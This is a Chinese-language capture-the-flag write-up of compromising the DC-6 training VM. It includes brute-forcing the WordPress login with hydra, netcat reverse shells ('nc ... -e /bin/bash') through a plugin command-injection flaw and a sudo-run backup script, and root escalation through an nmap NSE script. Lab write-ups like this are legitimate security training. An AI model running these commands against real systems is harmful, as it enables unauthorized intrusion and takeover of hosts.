 ```yaml
---
 title: DC-6靶机渗透实战
 date: 2020-02-06 20:14:46
 tags: 靶机渗透
 categories: 靶机渗透
---
```


### 靶机介绍

这次的靶机渗透实战是一个找寻靶机中的flag的过程，并以获得最终的flag为目标。
靶机下载地址:http://www.five86.com/dc-6.html

### 信息搜集
直接上nmap进行扫描
> nmap -sV -A -p- 172.16.0.18
```
Nmap scan report for localhost (172.16.0.18)
Host is up (0.00019s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
MAC Address: 00:0C:29:9C:80:16 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
**可知开放22、80端口，linux主机，同样要设置hosts,发现是wordpress**
发现开了80端口却无法访问，是重定向到wordy域名，可改hosts文件访问，添加ip对应域名

win10路径： C:\Windows\System32\drivers\etc\hosts

linux路径： etc/hosts

* 根据靶机官网提示
> cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt That should save you a few years. ;-)
**猜测爆破进入后台**

<!--more-->

### 渗透实战
1. wpscan扫描用户,获取到5个用户
> wpscan --url wordy -e u
```
[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://wordy/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] graham
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] mark
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] sarah
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] jens
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
2. 尝试爆破ssh和web后台
- 爆破后台
> hydra -L users.txt -P jimpass.txt -f wordy http-post-form "wp-login.php:text=^USER^&pwd=^PASS^:S=logout"
* 获取到密码
> mark helpdesk01
- 进入后台发现有个active管理插件命令执行漏洞
![2020-2-6-21-21-21](https://raw.githubusercontent.com/bbkali/picbad/master/2020-2-6-21-21-21)
- 直接抓包使用nc反弹shell
> nc 172.16.0.10 2222 -e /bin/bash
![2020-2-6-21-22-34](https://raw.githubusercontent.com/bbkali/picbad/master/2020-2-6-21-22-34)
- 获取交互shell
> python -c "import pty;pty.spawn('/bin/bash')"
```
root@bbkali:/tmp/dc6# nc -lvp 2222
listening on [any] 2222 ...
connect to [172.16.0.10] from wordy [172.16.0.18] 36108
python -c "import pty;pty.spawn('/bin/bash')"
```
- 常规翻看目录，发现有价值提示to-do-sometings.txt
```

www-data@dc-6:/home$ ls -R

.:
graham  jens  mark  sarah

./graham:

./jens:
backups.sh

./mark:
stuff

./mark/stuff:
things-to-do.txt

./sarah:

www-data@dc-6:/home/mark/stuff$ cat things-to-do.txt 

Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
```
* 发现graham密码
3. 提权
- ssh登录graham发现backups.txt可利用提权
```
graham@dc-6:/home$ sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
graham@dc-6:/home$ cat /home/jens/backups.sh
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
```
- 直接将nc命令加入backups.sh
```
graham@dc-6:/home/jens$ cat backups.sh 
nc 172.16.0.10 2223 -e /bin/bash
graham@dc-6:/home/jens$ sudo -u jens ./backups.sh
```
- 获取到jens权限,发现能以root用户免密码执行nmap
```
pwd
/home
whoami
jens
sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
```
- 写个nmap脚本
> echo 'os.execute("/bin/sh")' > root.nse
- 运行该脚本获取root权限并拿到flag
> sudo nmap --script=/home/jens/root.nse
```
jens@dc-6:~$ sudo nmap --script=/home/jens/root.nsesudo nmap --script=/home/jens/root.nse


Starting Nmap 7.40 ( https://nmap.org ) at 2020-02-07 00:06 AEST
# pwd
/home/jens
# whoami
root
# cd /root
# s^H
/bin/sh: 4: : not found
# ls
theflag.txt
# cat theflag.txt


Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b 
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P 
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"' 
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8) 


Congratulations!!!

Hope you enjoyed DC-6.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```